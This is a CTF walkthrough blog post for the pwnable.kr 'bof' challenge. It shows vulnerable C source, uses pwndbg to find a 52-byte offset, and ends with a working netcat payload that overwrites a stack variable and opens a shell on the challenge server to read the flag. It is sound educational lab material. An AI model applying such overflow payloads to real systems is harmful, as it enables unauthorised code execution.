 ```yaml
---
title: "pwnable.kr walkthrough 03: bof"
date: 2024-10-23T20:30:46-05:00
draft: false
author: "Nathan Higley"
authorLink: ""
description: ""

tags: [linux, pwn, ctf]
categories: [pwn, ctf, linux]

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
license: ""

series: ["pwnable.kr"]
series_order: 3
---
```


# bof

For this challenge, we are presented with a bit different prompt than before.

We now just simply get source code and a binary, as well as a netcat connection to connect to to exploit it remotely.

## Source Code Analysis

Looking at `bof.c` we see this:
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

This is a pretty classic challenge.  Since the program is calling the vulnerable function `gets()` and reading it into a 32 byte buffer, we need to provide 32 bytes to fill the buffer, and then at some offset we should be able to overwrite the key variable with the needed value of `0xcafebabe`

## Finding the Offset

Using the amazing [pwndbg](https://pwndbg.re/) we can easily find this offset.

First load the binary into pwndbg:
```c
pwndbg ./bof
```

Then generate a payload with the cyclic command:
```c
pwndbg> cyclic 200
<payload>
```

Now disassemble the `func()` function:
```c
pwndbg> disass func
Dump of assembler code for function func:
   0x5655562c <+0>:     push   ebp
   0x5655562d <+1>:     mov    ebp,esp
   0x5655562f <+3>:     sub    esp,0x48
   0x56555632 <+6>:     mov    eax,gs:0x14
   0x56555638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x5655563b <+15>:    xor    eax,eax
   0x5655563d <+17>:    mov    DWORD PTR [esp],0x5655578c
   0x56555644 <+24>:    call   0xf7e054b0 <puts>
   0x56555649 <+29>:    lea    eax,[ebp-0x2c]
   0x5655564c <+32>:    mov    DWORD PTR [esp],eax
   0x5655564f <+35>:    call   0xf7e04a00 <gets>
   0x56555654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x5655565b <+47>:    jne    0x5655566b <func+63>
   0x5655565d <+49>:    mov    DWORD PTR [esp],0x5655579b
   0x56555664 <+56>:    call   0xf7dde3e0 <system>
   0x56555669 <+61>:    jmp    0x56555677 <func+75>
   0x5655566b <+63>:    mov    DWORD PTR [esp],0x565557a3
   0x56555672 <+70>:    call   0xf7e054b0 <puts>
   0x56555677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
   0x5655567a <+78>:    xor    eax,DWORD PTR gs:0x14
   0x56555681 <+85>:    je     0x56555688 <func+92>
   0x56555683 <+87>:    call   0xf7ebca80 <__stack_chk_fail>
   0x56555688 <+92>:    leave
   0x56555689 <+93>:    ret
End of assembler dump.
```
The spot we need is the where the program compares the value to `0xcafebabe`:
```c
0x56555654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
```
So let's set a breakpoint there and then run the program
```c
pwndbg> b *func+40
pwndbg> r
```
Then paste in the cyclic payload.

Now here, we need to look at 8 bytes from the $ebp register:
```c
pwndbg> x/4x $ebp+8
0xffffbce0:     0x6161616e      0x6161616f      0x61616170      0x61616171
```

And then we can calculate the offset:
```c
pwndbg> cyclic -l 0x6161616e
Finding cyclic pattern of 4 bytes: b'naaa' (hex: 0x6e616161)
Found at offset 52
```

## Writing The Exploit

So we now know we need to write 52 bytes and then the required four bytes `0xcafebabe`

A good way to do this would be (remember to reverse the endianness of the hex bytes):
```sh
echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xbe\xba\xfe\xca" | nc pwnable.kr 9000
```

When we test this, oddly the program hangs.  What is really happening is that netcat is closing the connection.

A good way to resolve this is to add an extra cat command after our echo so that netcat will continue to keep the connection open and connect stdin and stdout to the netcat connection:
```sh
(echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xbe\xba\xfe\xca" && cat) | nc pwnable.kr 9000
```

And running this we get the flag:
```sh
$ (echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xbe\xba\xfe\xca" && cat) | nc pwnable.kr 9000
ls
bof
bof.c
flag
log
super.pl
cat flag
<FLAG>
```



